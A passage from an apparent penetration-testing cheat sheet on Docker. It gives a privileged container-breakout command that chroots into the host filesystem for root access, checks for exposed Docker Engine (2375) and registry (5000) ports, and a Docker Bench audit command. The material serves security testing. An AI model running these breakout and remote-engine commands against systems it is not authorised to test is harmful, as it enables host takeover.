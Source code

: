 Once you've run this command you'll be root on the underlying host.

```
docker run -ti --privileged --net=host --pid=host --ipc=host --volume /:/host busybox chroot /host
```

# Ports to look for

`2375/TCP` - Docker Engine unencrypted port
`2376/TCP` - Docker Enging - Encrypted port
`5000/TCP` - Docker Registry

# Attacking Port 2375/TCP

A standard test for this port would be to use standard docker commands, if this works it likely means the host can be compromised using the command above in "Breakout of a container which exposes the Docker Socket"

```
docker -H tcp://[IP]:2375 ps
```

# Attacking Port 5000/TCP

The registry present an HTTP API and can store Docker image which may contain useful information.  You can use curl to test this to see if it's available unauthenticated.

```
curl http://[IP]:5000/v2/_catalog
```


# Docker Security Tools

## Docker Bench - https://github.com/docker/docker-bench-security

Good for reviewing the configuration of a Docker engine install. (https://github.com/docker/docker-bench-security)

```
docker run -it --net host --pid host --userns host --cap-add audit_control \
    -e DOCKER_CONTENT_TRUST=$DOCKER_CONTENT_TRUST \
    -v /etc:/etc \
    -v /usr/bin/docker-containerd:/usr/bin/docker-containerd \
    -v /usr/bin/docker-runc:/usr/bin/docker-runc \
    -v /usr/lib/systemd:/usr/lib/systemd \
    -v /var/lib:/var/lib \
    -v /var/run/docker.sock:/var/run/docker.sock \
    --label docker_bench_security \
    docker/docker-bench-security
```

